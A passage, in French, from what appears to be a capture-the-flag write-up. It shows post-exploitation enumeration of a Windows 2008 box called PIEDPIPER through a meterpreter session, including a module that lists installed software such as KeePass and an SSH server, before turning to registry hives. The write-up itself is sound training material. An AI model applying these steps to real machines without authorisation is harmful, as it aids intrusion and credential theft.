 Le système a deux autres utilisateurs qui sont *Gilfoyle* (l'administrateur) et *nginx*.  

Il s'agit d'un système 32 bits, Windows 2008 (Build 6002, Service Pack 2). Metasploit suggère plusieurs exploits locaux mais aucun n'aboutit.  

On peut se servir d'un module auxiliaire pour lister les applications installées :  

```plain
meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on PIEDPIPER

Installed Applications
======================

 Name                                                              Version
 ----                                                              -------
 7-Zip 18.05                                                       18.05
 Bitnami TestLink Module                                           1.9.17-0
 Bitvise SSH Server 7.44 (remove only)                             7.44
 Hotfix for Microsoft .NET Framework 3.5 SP1 (KB953595)            1
 Hotfix for Microsoft .NET Framework 3.5 SP1 (KB958484)            1
 KeePass Password Safe 2.40                                        2.40
 Microsoft .NET Framework 3.5 SP1                                  3.5.30729
 Microsoft .NET Framework 4.5.2                                    4.5.51209
 Microsoft .NET Framework 4.5.2                                    4.5.51209
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.21022         9.0.21022
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161    9.0.30729.6161
 Mozilla Firefox 52.9.0 ESR (x86 en-GB)                            52.9.0
 Notepad++ (32-bit x86)                                            7.5.9
 Oracle VM VirtualBox Guest Additions 5.2.12                       5.2.12.0
 Python 2.7.15                                                     2.7.15150
 Security Update for Microsoft .NET Framework 3.5 SP1 (KB2604111)  1
 Security Update for Microsoft .NET Framework 3.5 SP1 (KB2736416)  1
 Security Update for Microsoft .NET Framework 3.5 SP1 (KB2840629)  1
 Security Update for Microsoft .NET Framework 3.5 SP1 (KB2861697)  1
 Update for Microsoft .NET Framework 3.5 SP1 (KB963707)            1
 Update for Microsoft .NET Framework 4.5.2 (KB4040977)             1
 Update for Microsoft .NET Framework 4.5.2 (KB4096495)             1
 Update for Microsoft .NET Framework 4.5.2 (KB4098976)             1
 Update for Microsoft .NET Framework 4.5.2 (KB4338417)             1
 Update for Microsoft .NET Framework 4.5.2 (KB4344149)             1
 Update for Microsoft .NET Framework 4.5.2 (KB4457019)             1
 Update for Microsoft .NET Framework 4.5.2 (KB4457038)             1
 Update for Microsoft .NET Framework 4.5.2 (KB4459945)             1
 VMware Tools                                                      10.1.15.6677369
 XAMPP                                                             5.6.36-0
```

Il y a effectivement un serveur SSH qui tourne. Quand à KeePass on le retrouve dans *Program Files\kpps*.
L'énumération *classique* des services, process, permissions, fichiers n'ayant mené à rien il était temps de se pencher sur les ruches (hives) du registre Windows.  
